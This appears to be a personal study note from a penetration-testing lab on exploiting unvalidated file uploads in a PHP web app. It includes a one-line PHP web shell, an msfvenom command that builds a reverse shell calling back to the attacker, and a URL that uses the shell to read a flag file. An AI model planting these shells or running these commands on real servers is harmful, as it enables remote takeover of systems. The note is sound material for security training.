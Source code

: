 # Absent Validation:
The most basic type of file upload vulnerability occurs when the web app does not have any form of validation filters on the upload files.
With this types of vulnerability web apps, we may directly upload our web shell or reverse shell script to the web app, and then by visiting the uploaded script, we can interact with oir web shell or send reverse shell.

- Arbitrary File Upload:
Will see an Employee File manager web app, which allows upload personal file to the web app.
The web app does not mention anything about what file types are allowed, and we can drag and drop any file we want and its name will appear on the upload form including .php files.
IF we click selector dialog does not specify any types as its says all files for the file type, which may also suggest that not type restrictions or limitation are specific for the web app.

- Identifying Web Framework:
Web neet to upload a malicius script to test whether we can upload any file type to the back-end server and test whether we can use this to exploit the back-end server.
Many kinds of scripts can help us exploit web app through Arbitrary file upload, most commonly a web shell sript and a reverse shell script.

A web shell provides us with an ez method to interact  with the back-end server by accepting shell commands and printing their output back to us within the web browser.
A web shell to be written in the same programming language the runs the web server, as it runs plataform-specific funtions and commands to execute system commands on the back-end server.
Making web shell non-cross-plataform script. First would be to identify what language runt the web app.

This is usually relatievy simple, as we can often the web page extension in the URL, which may reveal the programming languages that runs the web app. In certain web frameworks and web languages, Web Routes are used to map
URLs to web pages, in which case the web page extension may not be shown. File upload explotation would also be different  as our uploaded files may not be directly routable or accessible.
One ez method to determine what languages runs the web app is to visit the [/index.txt] page, where we would swap out exp with various common web extension, like [php, asp, aspx] among others, to see whether any of them exists.

When we visit our exercise below, we see its URL as [http://server:port], as the index page is usually hidden by default. We try to visit [http://server:port/index.txt] we would get the samme page
which means that this is indeed a PHP web app. We do not need to do this manually, as we can use a tool like burp intruder for fuzzing the file extension using a Web extension [~/Dictionaries/SecLists/Discovery/Web-Content/web-extensions.txt] wordlistm,
as we'll see in upcoming sections. This method may not always  be accuraate, as the web app may no utilize index pages or may utilize more than on web extension.
Using Wappalyzer extension, which is avaliable for all major browser. ONce added to our browser, we can click its the view all tech running the web app.

Not only did extension tell us that the web app runs on PHP, but it also identified the type and version of the web server, the back-end operation system, and other tech in use.
These extension are essential in a web penetration tester arsenal, though it's always better to know alternative manual mathods to identify the web framework, like the earlier method we discussed.

- Vulnerability identification:
Now that we have identified the web framework running the web app anf its programming languages, we can test whether we can upload a file with the same extension. Initial test to identify whether we can upload arbitrary PHP, files.
The file appears to have successfully been uploaded, as we get message saying File successfully uploaded, which means that the web app has no file validation whatsoever on the back-end. We can click the Download button, and the web app
will take us to our uploaded files.
    - Create the script to executes the Hostname command.
```php
<?php
$hostname = shell_exec('hostname');
echo "server host: " . htmlspecialchars($hostname);
?>
```
![serverhost](../Img/fileupload.png)


# File Upload Explotation:
The final step in exploating this web app is to upload the malicius script  in the same language as the web app, like a web shell or reverse shell script.
Once we uplooad our malicius script and visit its link, we should be able to interact with it to take control over the back-end.
- Web shell:
Web can find many excellent web shell online that provide useful ft, like directory travesal or file transfe. One good option for PGP is [phpbash](https://github.com/Arrexel/phpbash), which
provides a terminal-like, semi-interactive web shell/. We can be found in the /opt/useful/seclist/web-shell directly PwnBox.
We can Download any of these web shell for language of our web app then upload it through the vulnerable upload ft, and visit uploaded file to interact with the web-shell.
phpbash.php form ori web app, and the navigate to its link click Download.

- Writing Custom Web shell:
Using web shell form online resources can provide a great experience, we should also know how to write a simple web shell manually. This is cause we may not have assess to online
tools during some penetration test, so we cneed to be able to create one when needed.
With php we can use [system()] funtion that executes sytem commands and prints their output, and pass it the cmd parameter with [$_REQUEST['cmd']]
`<?php system($_REQUEST['cmd']);?>`

This may not be ez to use as other web shells we can find online, but still provides and interact method for sending commands and reitriving their output.
> [!TIP]
> IF we are using this custom web shell in browser, it may be best to use source-view by click CTRL+U,  as the source view shows the command out as it would be shown in the terminal, HTML rendering that may affect
> how the output is formatted.

We can find various other web shells onlimne may of which can be ez memorized for web penetration testing purpouses. It must be noted that in certain cases, web shells may not work.
This may be due to the web server preventing the use of some funtions utilized by the web shell or due to a web app firewasll, among other reason. We may need to use advanced tech to bypass
these security  mitigation.

- Reverse Shell:
Let's see how we can receive reverse shell through the vulnerable upload funtionality. We should start by Downloading a reverse shell script in the lenguage of the web app. One reliable reverse for PHP is the
[pentestmonkey] PHP reverse shell.
We must to change the ip and port, then netcat for the listeing.

- Generating Custom Reverse Shell script:
We can also create our own reverse shell script. While it's possible to use the same previous system funtion and pass  ot reverse shell command, thios may not always be very reliable, as the command may faul for many reasons,
just like any other revrse command.

This is why is always better to use code web frameworks funtions to connect to our machine. This may no be as ez to memeoru as web shell script. tools like msfvenom can generate reverse.
`msfvenom -p php/reverse_php LHOST=OUR_IP LPORT=OUR_PORT -f raw > reverse.php` and then netcat.

Get the flag.txt
Payload = `<?php system($_REQUEST['cmd']); ?>`
URL [http://94.237.58.172:45295/uploads/script.php?cmd=cat%20/flag.txt]
